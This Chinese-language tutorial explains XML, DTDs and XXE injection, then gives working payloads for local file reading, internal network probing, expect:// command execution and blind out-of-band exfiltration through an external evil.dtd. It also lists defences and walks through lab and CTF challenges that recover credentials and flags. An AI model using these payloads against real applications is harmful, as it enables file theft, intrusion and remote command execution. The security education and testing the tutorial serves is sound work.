# XML与XXE利用检测绕过



## 什么是XML

XML 被设计为传输和存储数据，XML文档结构包括 XML 声明、DTD文档类型定义（可选）、文档元素、其焦点是数据的内容，其把数据从 HTML 分离，是独立于软件和硬件的信息传输工具。

## 什么是XXE

XXE 漏洞全称XML External Entity Injection，即 xml 外部实体注入漏洞，XXE 漏洞发生在应用程序解析 XML 输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站等危害。

## XML与HTML的主要差异

XML被设计为传输和存储数据，其焦点是数据的内容。

HTML被设计用来显示数据，其焦点是数据的外观。

HTML旨在显示信息 ，而XML旨在传输信息。

## XML学习

```xml
<!-- XML声明 -->
<?xml version="1.0"?>
<!-- 或者,UTF-8是万国码 -->
<?xml version="1.0" encoding="UTF-8"?> 
```

## DTD学习

DTD（文档类型定义）的作用是定义XML文档的合法构建模块，它使用一系列合法的元素来定义文档的结构。

DTD 可被成行地声明于 XML 文档中，也可作为一个外部引用。

### DTD在XML文档中

内部的 DOCTYPE 声明：

```xml-dtd
<!DOCTYPE 根元素 [元素声明]>
```

示例：

```xml
<!--文档类型定义-->
<?xml version="1.0"?>
<!DOCTYPE note [ <!--定义此文档是note类型的文档-->
<!ELEMENT note (to,from,heading,body)> <!-- 定义note元素有四个元素 -->
<!ELEMENT to (#PCDATA)> <!-- 定义to元素为"#PCDATA"类型 -->
<!ELEMENT from (#PCDATA)> <!-- 定义from元素为"#PCDATA"类型 -->
<!ELEMENT heading (#PCDATA)> <!-- 定义head元素为"#PCDATA"类型 -->
<!ELEMENT body (#PCDATA)> <!-- 定义body元素为"#PCDATA"类型 -->
]>
<!--文档元素-->
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Don't forget me this weekend</body>
</note>
```


### DTD作为外部引用

假如 DTD 位于 XML 源文件的外部，那么它应通过下面的语法被封装在一个 DOCTYPE 定义中：

```xml-dtd
<!DOCTYPE root-element SYSTEM "filename">
<!DOCTYPE 根元素 SYSTEM ”文件名">
```

示例：

外部的XML文件，只不过这是外部的DTD。

```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
  <to>Tove</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

这是包含外部DTD的 "note.dtd" 文件：

```xml-dtd
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

### DTD 实体

实体是用于定义引用普通文本或特殊字符的快捷方式的变量。

- 实体引用是对实体的引用。
- 实体可在内部或外部进行声明。

#### 内部实体声明

```xml-dtd
<!ENTITY entity-name "entity-value">
<!ENTITY 实体名称 ”实体的值">
```

实例

```xml
DTD 实例:
<!ENTITY writer "Donald Duck.">
<!ENTITY copyright "Copyright runoob.com">

XML 实例：
<author>&writer;&copyright;</author>
```

**注意：** 一个实体由三部分构成：一个和号 (&)、一个实体名称、 以及一个分号 (;)。

#### 外部实体声明

```xml-dtd
<!ENTITY entity-name SYSTEM "URI/URL">
<!ENTITY 实体名称 SYSTEM "URI">
```

实例

```xml
DTD 实例:
<!ENTITY writer SYSTEM "http://www.runoob.com/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.runoob.com/entities.dtd">

XML example:
<author>&writer;&copyright;</author>
```

#### 参数实体声明

```xml-dtd
<!ENTITY %实体名称 "实体的值">
<!ENTITY %实体名称 SYSTEM "URI">
```

## 各种协议玩法



### 有回显

###### 读文件

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///D://www.txt">
]>
<x>&xxe;</x>
```

###### 内网探针或攻击内网应用（触发漏洞地址）

实际应用中基本碰不到

前提条件

- 内网IP地址
- 开放端口
- 纯在xxe漏洞
- 构造漏洞地址

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://ip:端口/访问的文件名" >
]>
<x>&rabbit;</x>
```

eg

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://192.168.132.139:80" >
]>
<x>&rabbit;</x>
```

###### 玩法-RCE

这个玩法是在安装expect扩展的 PHP 环境里执行系统命令实际应用中很难碰到

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://id" >
]>
<x>&xxe;</x>
```

###### 引入外部实体 dtd

对于这种方式来说，如果外部实体被禁用是不能使用这种方式的。

```xml
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://127.0.0.1:80/index.dtd">
%file;
]>
<x>&send;</x>
```

外部dtd的内容

```xml-dtd
<!ENTITY send SYSTEM "file:///d:/www.txt">
```

### 无回显

###### 读取文件

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/www.txt">
<!ENTITY % dtd SYSTEM "http://127.0.0.1:80/evil.dtd"> 
<!-- 这是发送到自己服务器的地址 -->
%dtd;
%send;
]>
```

evil.dtd

```xml-dtd
<!ENTITY % payload
"<!ENTITY &#x25; send SYSTEM 'http://127.0.0.1:80/?data=%file;'>"
<!-- 通过日志或者变量去接收 -->
>
%payload;
```

这个方法是写在日志里面的。需要开启相应的日志模块，并且读取出来的数据是base64编码的。需要对其数据解码。

###### 绕过

协议-读文件（绕过）

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> ]>
<x>&f;</x>
```

## 漏洞修复与防御方案

1. 禁用外部实体

   PHP

   ```php
   libxml_disable_entity_loader(true);
   ```

   JAVA

   ```java
   DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
   dbf.setExpandEntityReferences(false);
   ```

   Python

   ```python
   from lxml import etreexmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
   ```

2. 过滤用户提交的 XML 数据

   过滤关键词：<!DOCTYPE 和<!ENTITY，或者 SYSTEM 和 PUBLIC

3. 要对网站就收的数据进行过滤，不然就会产生XXE漏洞。

## 实例

### XEE-Lab通关

通关的payload：

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php"> ]>
<user><username>&f;</username><password>Mikasa</password></user>
```



### CTF-Jarvis-OJ-Web-XXE

```
http://web.jarvisoj.com:9882/
```



### VulnHub-XXE通关

首先信息收集，先进网段扫描，判断出一个开启80端口的IP。



有了IP地址之后，对这个IP进行目录扫描。得到下面的文件路径。我们访问robots.txt文件。



打开robots.txt文件，得到下面的内容，进而访问网站下面的xxe目录。



读取xxe.php文件，拿到xxe.php的base64编码，解码后没有发现有用的信息，进而读取admin.php文件



对admin.php文件读取，拿到其对应的base64编码。



对这个文件进行解密，拿到对应的登录账号密码，密码需要对其使用md5解密，解密出来是`admin@123`。



登录后发现，读取flag文件，页面打不开。



进而再次使用xml的payload读取flagmeout.php文件。



对上述的base64编码解码得到flag，但是这个flag是base32编码，base32与base64的区别就是base32没有`=`号。



对解出来的base32解码，进而解出来base64的数据，再次对base64解码。



对base64解码得到对应flag的存储文件。



读取flag的存储文件，同样使用xml的payload。



对上述的base64解码拿到对应的php程序。



自己搭建一个php运行环境，将上述的代码在php中运行起来，拿到flag。


